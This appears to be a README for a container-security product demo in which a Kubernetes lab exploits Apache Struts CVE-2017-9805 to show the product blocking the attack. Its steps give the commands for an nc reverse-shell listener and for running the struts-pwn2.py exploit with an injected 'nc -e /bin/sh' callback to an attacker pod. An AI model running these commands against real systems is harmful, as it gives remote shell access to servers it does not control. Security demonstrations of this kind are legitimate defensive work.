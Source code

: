 # Remote shell - struts exploit

This demo creates a remote shell using the Apache Struts CVE-2017-9805 Exploit

## Prep
make sure you have the following two variables set in  your `terraform.tfvars`.
```
install_order     = true
```

The run
```
terraform apply
```

Make sure that you are using a `kubeconf` file that have access to default namespace in the demo cluster, you could use the `kubeconf` created when you ran the `terraform apply` command·
```
export KUBECONFIG=$(pwd)/kubeconf
```

## Demo
1. login to the super-app application, the link to the web app is provided in the `terrarom output`, and generate some traffic by refreshing the page, create a order, delete an order.

2. validate the policy group `nv.struts-orders.default` processes and network rules

3. put the policy group `nv.struts-orders.default` in `protect mode`

4. connect to the client with ssh (see connection string in terraform output) and start a nc process to act as reverse shell
```
nc -lvp 1337

```

5. in a second terminal, ssh to the client (see connection string in terraform output) and execute the attack payload. The exact command is written to `~/struts1.sh` and can be executed with
```
sh struts1.sh
```

6. Look in the Neuvector security events how the Struts RCE is blocked

7. Put the policy group `nv.struts-orders.default` in `monitor mode` and execute the rce payload again
```
sh struts1.sh
```
notice how the orders workload connects to the reversed shell and execute some commands there, like `whoami` `ls -l`, etc...

8. Look in the Neuvector security events how Neuvector now warns about different violations on the security policy, each warning is one layer of protection so even if this was a zero day the other warnings would block the attempt in protect mode.

5. open a terminal and create a reverse shell in the kali pod
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- nc -lvp 1337
```

6. open another terminal and execute the RCE payload in the kali workload
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- bash
python3 /payloads/struts-pwn2.py --exploit --url 'http://URL/super-app/orders/3' -c 'nc -nv X.X.X.X 1337 -e /bin/sh'
```
where `X.X.X.X` is the IP to the kali service you got in step 4
and the URL is the HOSTS of struts-orders ingress `kubectl get ingress struts-orders`

7. In the recerse shell type some commands, like prove you are root with `whoami`

8. Put the policy group `nv.struts-orders.default` in protect mode and see that it is now protected and it's no longer possible to execute commands in the reversed shell
